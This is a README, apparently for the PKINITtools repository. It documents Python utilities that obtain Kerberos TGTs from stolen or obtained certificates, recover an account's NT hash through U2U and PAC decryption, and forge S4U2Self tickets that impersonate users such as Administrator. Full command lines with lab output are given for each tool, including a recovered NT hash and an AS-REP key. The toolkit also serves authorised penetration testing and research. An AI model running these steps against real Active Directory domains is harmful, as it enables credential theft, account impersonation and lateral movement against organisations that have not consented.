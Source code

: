 # PKINIT tools

This repository contains some utilities for playing with PKINIT and certificates.  
The tools are built on [minikerberos](https://github.com/skelsec/minikerberos/tree/master/minikerberos) and [impacket](https://github.com/SecureAuthCorp/impacket).

## Installation
These tools are only compatible with Python 3.5+. Clone the repository from GitHub, install the dependencies and you should be good to go:

```bash
git clone https://github.com/dirkjanm/PKINITtools
pip3 install impacket minikerberos
```

Using a virtualenv for this is recommended.

## Tools

### gettgtpkinit.py
Request a TGT using a PFX file or PEM files for cert+key. This uses Kerberos PKINIT and will output a TGT into the specified ccache. It will also print the AS-REP encryption key which you may need for the getnthash.py tool. Usage example:

```
(PKINITtools) user@localhost:~/PKINITtools$ python gettgtpkinit.py -h
usage: gettgtpkinit.py [-h] [-cert-pfx PFX file] [-pfx-pass PFX file password] [-cert-pem Certificate in PEM format]
                       [-key-pem Private key file in PEM format] [-dc-ip DC_IP] [-v]
                       domain/username ccache

Requests a TGT using Kerberos PKINIT and either a PEM or PFX based certificate+key

positional arguments:
  domain/username       Domain and username in the cert
  ccache                ccache file to store the TGT in

optional arguments:
  -h, --help            show this help message and exit
  -cert-pfx PFX file
  -pfx-pass PFX file password
  -cert-pem Certificate in PEM format
  -key-pem Private key file in PEM format
  -dc-ip DC_IP          DC IP or hostname to use as KDC
  -v, --verbose

(PKINITtools) user@localhost:~/PKINITtools$ python gettgtpkinit.py testsegment.local/s2019dc\$ -cert-pfx ~/impacket-py3/cert.pfx -pfx-pass hoi s2019dc.ccache
2021-07-27 21:25:24,299 minikerberos INFO     Loading certificate and key from file
2021-07-27 21:25:24,316 minikerberos INFO     Requesting TGT
2021-07-27 21:25:24,333 minikerberos INFO     AS-REP encryption key (you might need this later):
2021-07-27 21:25:24,333 minikerberos INFO     5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
2021-07-27 21:25:24,336 minikerberos INFO     Saved TGT to file
```

### getnthash.py
Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable. Usage:

```
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py -h
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

usage: getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity

positional arguments:
  identity           domain/username

optional arguments:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON

(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```

### gets4uticket.py
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that). Usage:

```
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py -h
usage: gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache

Gets an S4U2self ticket impersonating given user

positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a
                        TGS ticket to be used for file access on server "fileserver". IMPORTANT: SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose

(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```


## License
MIT

## Credits
* [SkelSec](https://twitter.com/skelsec) for [minikerberos](https://github.com/skelsec/minikerberos/tree/master/minikerberos)
* Alberto Solino and the team at SecureAuthCorp for [impacket](https://github.com/SecureAuthCorp/impacket)
* [Mor Rubin](https://twitter.com/rubin_mor) for their first PKINIT implementation in python as part of [AzureADJoinedMachinePTC](https://github.com/morRubin/AzureADJoinedMachinePTC)
* [Benjamin Delpy](https://twitter.com/gentilkiwi) for implementing these things in [kekeo](https://github.com/gentilkiwi/kekeo)
